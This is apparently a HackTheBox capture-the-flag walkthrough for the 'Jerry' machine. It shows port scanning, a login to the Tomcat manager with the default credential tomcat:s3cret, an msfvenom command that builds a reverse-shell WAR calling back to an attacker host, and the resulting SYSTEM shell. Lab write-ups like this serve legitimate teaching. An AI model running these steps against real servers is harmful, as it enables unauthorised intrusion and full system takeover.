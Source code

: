 # HackTheBox Jerry

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.95

[+] Openning ports: 8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.95 -p8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-06 14:09 +07
Nmap scan report for 10.10.10.95
Host is up (0.25s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
```

### Apache Tomcat/7.0.88

At port 8080, it is Tomcat's home page.

![](images/2.png)

At manager page `http://10.10.10.95:8080/manager/html`, I try to login with defaul credential `tomcat:s3cret` and I got admin.

![](images/3.png)

## Foothold

### WAR file upload

Create `shell.war` using msfvenom to deploy in tomcat server.

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war > shell.war
```

Upload file `shell.war` and deploy it.

![](images/4.png)

Execute web shell and got the reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:45.9]~/walkthrough/hackthebox/jerry
└─$ curl http://10.10.10.95:8080/shell/
```

At listener, I got system shell.

```
┌──(Hades㉿10.10.14.5)-[1.7:46.0]~
└─$ sudo nc -nvlp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system
```